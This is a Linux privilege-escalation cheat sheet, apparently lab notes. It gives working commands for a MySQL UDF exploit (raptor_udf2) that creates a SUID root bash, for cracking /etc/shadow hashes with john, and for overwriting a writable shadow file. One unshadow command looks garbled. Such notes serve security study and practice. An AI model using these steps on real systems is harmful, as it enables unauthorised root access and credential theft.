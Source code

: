 # Linux PrivEsc

### Service Exploits

The MySQL service is running as root and does not have a password assigned. We can use a 
[popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User 
Defined Functions (UDFs) to run system commands as root via the MySQL service.

Compile the raptor_udf2.c exploit code:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as root

`mysql -u root`

Execute the following commands to create a UDF "do_system" using the compiled exploit

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit MySQL and run /tmp/rootbash with -p to gain a shell running with root privileges

`/tmp/rootbash -p`

### Weak File Permissions - Readable /etc/shadow

If you can read the /etc/shadow file you can take the user's hash you want to crack and use 
john the ripper to crack it.

To crack /etc/shadow hashes you need to `unshadow` it first

`unshadow /etc/passwd OR <USERS-LINE> /etc/shadow OR <USERS-LINE> > unshadowed`

Then crack it with john

`john --wordlist=rockyou.txt unshadowed`

### Weak File Permissions - Writable /etc/shadow

Generate a new password hash

`mkpasswd -m sha-512 <PASSWORD>`

Edit the /etc/shadow file and replace the existing hash with the new one

Login as root with the new password
